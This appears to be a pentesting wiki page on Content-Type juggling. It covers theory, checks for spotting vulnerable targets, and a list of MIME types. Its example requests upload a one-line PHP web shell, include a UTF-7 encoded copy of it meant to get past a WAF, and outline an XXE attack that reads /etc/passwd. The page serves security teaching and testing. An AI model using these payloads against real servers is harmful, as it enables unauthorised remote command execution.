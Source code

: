 ```yaml
---
tags: ['Tag 1', 'Tag 2']
description: "Content-Type juggling exploits the lack of checking on the Content-Type header when submitting an HTTP request."
---
```


# Content-Type juggling

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../../web/inputs/file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).

::hint{type="info"}
The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.
::

::hint{type="warning"}
If the [XCTO (X-Content-Type-Options)](../../web/config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.
::

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary class="summary">List of the most common Content-Type values</summary>

::codeScreen{title="Type application"}
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```
::

::codeScreen{title="Type audio"}
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
::

::codeScreen{title="Type image"}
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```
::

::codeScreen{title="Type multipart"}
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```
::

::codeScreen{title="Type text"}
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```
::

::codeScreen{title="Type video"}
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```
::

::codeScreen{title="Type vnd"}
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```
::

</details>

### Example attacks

<details>

<summary class="summary">PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain
(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php
 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary class="summary">Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.

::codeScreen{title="Getting caught by the WAF"}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19
<?php system($_GET["cmd"]); ?>
```
::

::codeScreen{title="Bypassing the WAF"}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19
+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```
::

</details>

<details>

<summary class="summary">API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;

<img src="../../.gitbook/assets/CT-JUGGLING-3.png" alt="Performing Content-Type juggling" data-size="original">

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).

<img src="../../.gitbook/assets/CT-JUGGLING-4.png" alt="Crafting a XXE payload to extract /etc/passwd" data-size="original">

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

## Resources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee" %}
Content-Type from JSON to XEE
{% endembed %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses" %}
WAF and protections bypasses
{% endembed %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}